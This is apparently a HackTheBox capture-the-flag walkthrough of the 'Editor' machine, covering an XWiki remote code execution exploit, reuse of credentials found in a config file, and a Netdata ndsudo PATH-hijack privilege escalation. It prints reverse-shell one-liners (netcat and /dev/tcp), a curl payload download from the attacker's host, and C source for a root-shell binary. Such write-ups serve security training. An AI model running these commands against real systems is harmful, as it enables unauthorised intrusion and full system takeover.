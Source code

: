 # Editor

**Category:** Machine  
**Difficulty:** Easy  
**Platform:** HackTheBox

## Machine Description

Editor is a easy-difficulty machine that involves web application vulnerabilities in XWiki, followed by privilege escalation through Netdata's ndsudo plugin. The machine demonstrates the importance of keeping web applications and monitoring tools updated, showcasing how misconfigured monitoring tools can lead to complete system compromise.

## Initial Reconnaissance

### Port Scanning

```bash
nmap -n -Pn --min-rate=5000 -sV -sC -oA ./host/htb/editor/tcp-allports editor.htb -p-
```

![Nmap scan results](./images/screenshot01.png)

## Exploitation

### Step 1: XWiki Vulnerability Discovery

![XWiki version disclosure](./images/screenshot02.png)

Discovered that the target is running a vulnerable version of XWiki. Research led to [CVE-2024-24893](https://nvd.nist.gov/vuln/detail/CVE-2024-24893), a critical vulnerability that allows remote code execution through improper input validation.

### Step 2: Initial Reverse Shell

Using the `CVE-2024-24893` exploit, I established an initial reverse shell:

```bash
python3 CVE-2024-24893.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.14.122 6666 -e /bin/bash'
```

### Step 3: Shell Upgrade

Created a more stable and interactive reverse shell using bash's built-in TCP capabilities:

```bash
bash -i >& /dev/tcp/10.10.14.122/31337 0>&1
```

![Reverse shell established](./images/screenshot03.png)

### Step 4: Credential Discovery

Searched for XWiki configuration files in the `/etc/xwiki` directory and discovered credentials in the `/etc/xwiki/hibernate.cfg.xml` file. Cross-referencing with `/etc/passwd` revealed user `oliver` who likely configured XWiki and used the same password for SSH access.

**Password discovered:** `theEd1t0rTeam99`

![Password found in configuration](./images/screenshot04.png)

### Step 5: Initial Access

Successfully authenticated via SSH as user `oliver` and obtained the user flag:

```bash
sshpass -p theEd1t0rTeam99 ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null oliver@editor.htb
```

![SSH connection established as oliver](./images/screenshot05.png)

## Privilege Escalation

### Step 1: Sudo Enumeration

Checked user privileges and discovered that `oliver` cannot execute sudo commands:

### Step 2: Local Network Analysis

Examined local network services using `ss`:

```bash
ss -tulnp
```

![Local network services](./images/screenshot06.png)

**Discovered Services:**
- **Port 33060**: MySQL X Protocol (MySQL 8.0+) - Advanced database features
- **Port 8125**: StatsD - Metrics collection service
- **Port 19999**: Netdata - Real-time system monitoring dashboard
- **Port 3306**: MySQL (traditional protocol) - Database connections

All services were bound to localhost (127.0.0.1), making them inaccessible from external networks.

### Step 3: SSH Tunneling

Established SSH tunnel using `oliver`'s credentials to access local services:

```bash
sshpass -p theEd1t0rTeam99 ssh -N -L 19999:127.0.0.1:19999 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null oliver@editor.htb
```

### Step 4: Netdata Vulnerability Discovery

Accessed the Netdata dashboard through the tunnel and discovered agent version 1.45.2, which is vulnerable to [CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019).

![Netdata agent version](./images/screenshot07.png)

### Step 5: ndsudo Analysis

Located the `ndsudo` executable in the Netdata plugins directory:

```bash
find / -type f -executable -name "ndsudo" 2>/dev/null
```

**Path:** `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo`

Confirmed that `oliver` could execute this command.

### Step 6: Exploit Development

Research revealed that `ndsudo` trusts the `nvme` command. Created a malicious binary that:

1. **Sets UID and GID to 0** (root privileges)
2. **Spawns an interactive bash shell** with root access

**Malicious Code:**
```c
#include <unistd.h>

int main() {
  setuid(0);
  setgid(0);
  execl("/bin/bash", "bash", "-i", NULL);
  return 0;
}
```

### Step 7: Final Exploitation

Compiled the malicious code and transferred it to the target:

```bash
gcc -o nvme malicious.c
```

Started an HTTP server to transfer the malicious binary to the target:

```bash
python3 -m http.server 31337 --bind 0.0.0.0 | \
  sed -e 's/^HTTP\/1.0 200 OK/HTTP\/1.0 200 OK\nAccess-Control-Allow-Origin: *\n/'
```

Transfer the binary to the target:

```bash
curl 10.10.14.122:31337/nvme -o /tmp/nvme
```

Added the binary to the PATH and executed it through ndsudo:

```bash
chmod +x /tmp/nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

![Root shell obtained](./images/screenshot08.png)

## Tools Used

- **Nmap** - Port scanning and service enumeration
- **CVE-2024-24893 exploit** - XWiki vulnerability exploitation
- **Python HTTP server** - File transfer
- **GCC** - Malicious binary compilation
- **SSH tunneling** - Local service access
- **Netdata ndsudo** - Privilege escalation vector

## Summary

[Editor has been Pwned](https://labs.hackthebox.com/achievement/machine/2245732/684)

The machine was successfully compromised through XWiki CVE-2024-24893 → Credential discovery → SSH access → Netdata CVE-2024-32019 → ndsudo privilege escalation via malicious binary execution. This demonstrates the importance of comprehensive security practices across all system components.
